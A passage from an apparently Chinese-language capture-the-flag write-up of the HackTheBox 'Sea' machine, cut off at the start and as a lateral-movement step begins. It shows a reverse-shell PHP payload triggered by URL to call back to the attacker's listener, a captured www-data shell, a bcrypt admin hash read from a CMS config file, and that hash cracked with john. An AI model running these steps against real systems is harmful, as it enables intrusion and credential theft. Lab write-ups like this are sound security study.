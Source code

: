 
似乎无法直接反弹，在网页上触发payload
```http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.3&lport=443```


收到rev shell

```
┌──(root㉿kali)-[~/htb/sea]
└─# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.28] 53452
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 09:47:28 up 14:33,  1 user,  load average: 1.21, 1.03, 0.99
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```


发现一个加密的密码
```
$ ls
cache.json
database.js
files
$ cat database.js
{
    "config": {
        "siteTitle": "Sea",
        "theme": "bike",
        "defaultPage": "home",
        "login": "loginURL",
        "forceLogout": false,
        "forceHttps": false,
        "saveChangesPopup": false,
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
        "lastLogins": {
            "2024\/08\/13 09:49:57": "127.0.0.1",
            "2024\/08\/13 09:48:26": "127.0.0.1",
            "2024\/08\/13 09:46:56": "127.0.0.1",
            "2024\/08\/13 09:45:26": "127.0.0.1",
            "2024\/08\/13 09:43:56": "127.0.0.1"

```

破解密码,注意要把反斜杠去掉：
```
┌──(root㉿kali)-[~/htb/sea]
└─# john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?)     
1g 0:00:01:03 DONE (2024-08-13 05:52) 0.01574g/s 48.18p/s 48.18c/s 48.18C/s iamcool..memories
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

横向提权到amay
```
